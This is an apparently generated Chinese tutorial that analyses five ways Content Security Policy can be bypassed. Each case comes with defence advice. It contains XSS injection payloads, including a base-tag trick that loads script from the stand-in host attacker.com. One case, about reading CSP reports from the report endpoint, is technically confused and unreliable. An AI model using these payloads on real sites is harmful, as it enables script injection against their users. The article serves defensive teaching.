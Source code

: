 ### CSP策略绕过技术案例分析

内容安全策略（Content Security Policy，CSP）是一种用于防止跨站脚本攻击（XSS）等Web安全漏洞的机制。通过定义允许加载的资源来源，CSP可以限制恶意脚本的执行。然而，CSP策略并非绝对安全，攻击者可以通过多种方式绕过CSP策略，实施攻击。以下将分析几个真实世界中的CSP策略绕过技术漏洞案例和攻击实例。

#### 案例1：CSP策略中的`script-src`指令绕过

**背景**：某电商网站使用CSP策略来防止XSS攻击，其CSP策略如下：

```
Content-Security-Policy: script-src 'self' https://trusted.cdn.com;
```

该策略允许从自身域名和`https://trusted.cdn.com`加载脚本，禁止其他来源的脚本执行。

**漏洞分析**：攻击者发现该网站存在一个反射型XSS漏洞，用户输入的内容未经过滤直接输出到页面中。攻击者尝试注入恶意脚本，但由于CSP策略的限制，直接注入的脚本无法执行。

**绕过技术**：攻击者利用`script-src`指令中的`'self'`，将恶意脚本上传到网站自身的服务器上。由于CSP允许加载自身域名的脚本，攻击者通过上传一个恶意JavaScript文件，并将其路径注入到页面中，成功绕过CSP策略。

**攻击实例**：

1. 攻击者上传一个恶意脚本文件`malicious.js`到网站的`/uploads`目录。
2. 攻击者在用户输入中注入以下内容：

   ```html
   <script src="/uploads/malicious.js"></script>
   ```

3. 当用户访问包含该注入内容的页面时，浏览器会加载并执行`malicious.js`，从而绕过CSP策略。

**防御建议**：避免将用户上传的文件直接存储在Web可访问的目录中，或者对上传的文件进行严格的类型检查和内容过滤。

#### 案例2：CSP策略中的`base-uri`指令缺失

**背景**：某社交网站使用CSP策略来防止XSS攻击，其CSP策略如下：

```
Content-Security-Policy: script-src 'self'; object-src 'none';
```

该策略允许从自身域名加载脚本，禁止加载任何插件内容。

**漏洞分析**：攻击者发现该网站存在一个存储型XSS漏洞，用户发布的内容未经过滤直接存储并显示在其他用户的页面中。攻击者尝试注入恶意脚本，但由于CSP策略的限制，直接注入的脚本无法执行。

**绕过技术**：攻击者利用CSP策略中`base-uri`指令的缺失，通过注入`<base>`标签改变页面中相对URL的解析基准，将脚本的加载路径指向攻击者控制的服务器。

**攻击实例**：

1. 攻击者在用户发布的内容中注入以下内容：

   ```html
   <base href="https://attacker.com/">
   <script src="malicious.js"></script>
   ```

2. 当其他用户访问包含该注入内容的页面时，浏览器会解析`<base>`标签，将`malicious.js`的加载路径指向`https://attacker.com/malicious.js`，从而绕过CSP策略。

**防御建议**：在CSP策略中明确指定`base-uri`指令，限制`<base>`标签的使用，例如：

```
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'self';
```

#### 案例3：CSP策略中的`unsafe-inline`指令滥用

**背景**：某新闻网站使用CSP策略来防止XSS攻击，其CSP策略如下：

```
Content-Security-Policy: script-src 'self' 'unsafe-inline';
```

该策略允许从自身域名加载脚本，并允许内联脚本的执行。

**漏洞分析**：攻击者发现该网站存在一个反射型XSS漏洞，用户输入的内容未经过滤直接输出到页面中。攻击者尝试注入恶意脚本，由于CSP策略中允许内联脚本的执行，攻击者可以直接注入恶意代码。

**绕过技术**：攻击者无需绕过CSP策略，直接利用`unsafe-inline`指令注入恶意脚本。

**攻击实例**：

1. 攻击者在用户输入中注入以下内容：

   ```html
   <script>alert('XSS');</script>
   ```

2. 当用户访问包含该注入内容的页面时，浏览器会执行注入的脚本，触发XSS攻击。

**防御建议**：避免在CSP策略中使用`unsafe-inline`指令，除非有充分的理由。可以通过使用nonce或hash来允许特定的内联脚本执行，例如：

```
Content-Security-Policy: script-src 'self' 'nonce-abc123';
```

#### 案例4：CSP策略中的`report-uri`指令泄露

**背景**：某企业内网使用CSP策略来防止XSS攻击，其CSP策略如下：

```
Content-Security-Policy: script-src 'self'; report-uri /csp-report;
```

该策略允许从自身域名加载脚本，并将CSP违规报告发送到`/csp-report`端点。

**漏洞分析**：攻击者发现该网站存在一个CSP违规报告端点，未进行身份验证，任何人都可以访问。攻击者通过发送恶意请求，获取CSP违规报告中的敏感信息。

**绕过技术**：攻击者利用CSP违规报告中的信息，了解哪些资源被阻止，从而调整攻击策略，绕过CSP策略。

**攻击实例**：

1. 攻击者发送恶意请求到`/csp-report`端点，获取CSP违规报告。
2. 攻击者根据报告中的信息，调整恶意脚本的加载路径，使其符合CSP策略的要求。
3. 攻击者成功绕过CSP策略，执行恶意脚本。

**防御建议**：对CSP违规报告端点进行身份验证和访问控制，确保只有授权人员可以访问。同时，避免在CSP违规报告中泄露敏感信息。

#### 案例5：CSP策略中的`frame-ancestors`指令绕过

**背景**：某在线银行使用CSP策略来防止点击劫持攻击，其CSP策略如下：

```
Content-Security-Policy: frame-ancestors 'none';
```

该策略禁止页面被嵌入到任何框架中。

**漏洞分析**：攻击者发现该网站存在一个CSP策略配置错误，`frame-ancestors`指令未正确应用，导致页面可以被嵌入到其他网站中。

**绕过技术**：攻击者利用CSP策略配置错误，将目标页面嵌入到恶意网站中，实施点击劫持攻击。

**攻击实例**：

1. 攻击者创建一个恶意网站，将目标银行的登录页面嵌入到`<iframe>`中。
2. 攻击者通过CSS样式和透明层，诱使用户在不知情的情况下点击恶意按钮。
3. 攻击者成功实施点击劫持攻击，获取用户的登录凭证。

**防御建议**：确保CSP策略中的`frame-ancestors`指令正确配置，禁止页面被嵌入到任何框架中，例如：

```
Content-Security-Policy: frame-ancestors 'none';
```

### 总结

CSP策略是防止XSS等Web安全漏洞的有效机制，但其配置和使用需要谨慎。通过分析真实世界中的CSP策略绕过技术漏洞案例和攻击实例，我们可以更好地理解CSP策略的局限性，并采取相应的防御措施。在实际应用中，应避免滥用`unsafe-inline`指令，明确指定`base-uri`和`frame-ancestors`指令，对CSP违规报告端点进行访问控制，确保CSP策略的有效性。

---

*文档生成时间: 2025-03-11 15:57:07*






















